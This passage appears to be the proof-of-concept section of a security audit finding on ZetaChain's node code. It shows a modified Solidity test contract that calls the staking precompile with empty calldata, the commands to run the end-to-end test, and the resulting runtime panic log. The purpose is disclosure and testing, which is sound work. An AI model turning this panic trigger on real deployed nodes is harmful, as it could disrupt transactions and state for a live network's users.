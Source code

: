 ## PoC

This simple PoC runs the `e2e/e2etests/test_precompiles_staking_through_contract.go` E2E test and demonstrates how the staking precompile is called with empty calldata so that it panics. The `try-catch` is just cosmetic as it is unable to catch the panic.

Update the `stakeWithStateUpdate` function in [`TestStaking.sol`](https://github.com/sherlock-audit/2025-04-zetachain-cross-chain/blob/main/node/e2e/contracts/teststaking/TestStaking.sol) and add the new `causePanic` function:

```solidity
function stakeWithStateUpdate(
    address staker,
    string memory validator,
    uint256 amount
) external onlyOwner returns (bool) {
    counter = counter + 1;
    // transfer full balance
    (bool success, ) = payable(address(0xdead)).call{value: payable(this).balance }("");
    require(success, "transfer to dead address failed");

    success = staking.stake(staker, validator, amount);

    try this.causePanic() {} catch {
        // do nothing
    }

    counter = counter + 1;
    return success;
}

function causePanic() external {
    // call `staking` contract with low level call invalid calldata so that it panics
    address(staking).call(hex"");
}
```

Re-generate the ABI Go bindings:

```bash
go generate ./e2e/contracts/teststaking
```

Run the test:

```bash
zetae2e run precompile_contracts_staking_through_contract --config cmd/zetae2e/config/local.yml --verbose
```

The precompile will panic, and all state changes will be reverted. The Docker logs will show the panic:

```bash
panic recovered in runTx err="recovered: runtime error: slice bounds out of range [:4] with capacity 0
```
